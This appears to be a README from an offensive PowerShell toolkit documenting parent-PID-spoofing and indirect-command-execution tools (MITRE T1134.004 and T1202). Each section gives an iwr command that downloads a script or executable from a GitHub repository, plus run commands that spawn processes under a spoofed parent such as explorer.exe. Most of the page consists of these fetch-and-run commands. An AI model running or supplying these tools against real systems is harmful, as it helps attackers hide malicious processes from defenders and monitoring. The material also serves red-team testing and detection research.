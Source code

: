 ## PPIDSpoof.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|PPIDSpoof|Creates a process as a child of a specified process ID.<br />Technique ID: T1134.004 (Access Token Manipulation: Parent PID Spoofing)|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/PPIDSpoof.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/PPIDSpoof.ps1" -OutFile "PPIDSpoof.ps1"
```

**execute:**
```powershell
Import-Module -Name ".\PPIDSpoof.ps1" -Force

#Spawns a notepad.exe process as a child of the current process.
Start-ATHProcessUnderSpecificParent -ParentId $PID -FilePath notepad.exe

#Spawns a notepad.exe process as a child of the first explorer.exe process.
Get-Process -Name explorer | Select-Object -First 1 | Start-ATHProcessUnderSpecificParent -FilePath notepad.exe

#Creates a notepad.exe process and then spawns a powershell.exe process as a child of it.
Start-Process -FilePath $Env:windir\System32\notepad.exe -PassThru | Start-ATHProcessUnderSpecificParent -FilePath powershell.exe -CommandLine '-Command Write-Host foo'
```

<br />

## SelectMyParent.exe

|Binary name|Description|Privileges|Notes|
|---|---|---|---|
|SelectMyParent|Creates a process as a child of a specified process ID.<br />Technique ID: T1134.004 (Access Token Manipulation: Parent PID Spoofing)|Administrator|\*\*\*|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/SelectMyParent.exe" -OutFile "SelectMyParent.exe"
```

**execute:**
```powershell
.\SelectMyParent.exe <process-to-use> <pid-to-spoof>

#Spawn notepad.exe using id 32 (calculator)
.\SelectMyParent.exe notepad 32
```

<br />

## spoof.exe

|Binary name|Description|Privileges|Notes|
|---|---|---|---|
|spoof|Creates a process as a child of a specified process ID.<br />Technique ID: T1134.004 (Access Token Manipulation: Parent PID Spoofing)|Administrator|\*\*\*|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/spoof.exe" -OutFile "spoof.exe"
```

**execute:**
```powershell
.\spoof.exe <process-to-use> <pid-to-spoof>
.\spoof.exe pentestlab.exe 1116
```

<br />

## Mitre-T1202.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[Mitre-T1202](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Process-Spoofing/Mitre-T1202.ps1)| MITRE ATT&CK T1202: Indirect Command Execution|User Land|\*\*\*|

<br />

**Download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Process-Spoofing/Mitre-T1202.ps1" -OutFile "Mitre-T1202.ps1"
```

<br />

**prerequesites checks:**
```powershell
[bool](Test-Path -Path "$Env:WINDIR\System32\wlrmdr.exe")
```

<br />

**execute:**
```powershell
#Spawn 'mspaint.exe' with 'wlrmdr.exe' as parent process.
.\Mitre-T1202.ps1 -Seconds "0" -Binary "mspaint.exe"
```
